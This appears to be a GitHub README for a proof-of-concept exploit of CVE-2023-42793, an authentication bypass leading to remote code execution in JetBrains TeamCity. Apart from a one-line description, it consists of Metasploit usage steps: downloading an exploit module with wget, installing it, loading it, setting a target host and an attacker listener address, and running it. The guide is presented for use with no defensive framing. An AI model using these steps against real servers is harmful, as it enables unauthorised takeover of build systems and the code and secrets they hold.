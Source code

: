 # CVE-2023-42793

![](https://img.shields.io/static/v1?label=Product&message=JetBrains%20TeamCity%20Server&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=All%20versions%20of%20TeamCity%20prior%20to%20version%202023.05.4&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=Remote%20Code%20Execution&color=red)

## Description

In JetBrains TeamCity before 2023.05.4 authentication bypass leading to RCE on TeamCity Server was possible


### Usage

### Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/JetBrains_RCE/jetbrains_teamcity_rce_cve_2023_42793.rb
```
```
cp jetbrains_teamcity_rce_cve_2023_42793.rb /usr/share/metasploit-framework/modules/exploits/multi/http/jetbrains_teamcity_rce_cve_2023_42793.rb
```
```
msfdb reinit; msfconsole -q
```
```
use exploits/multi/http/jetbrains_teamcity_rce_cve_2023_42793.rb
```
```
set RHOSTS target_IP
```
```
set lhost attacker_IP
```
```
run
```

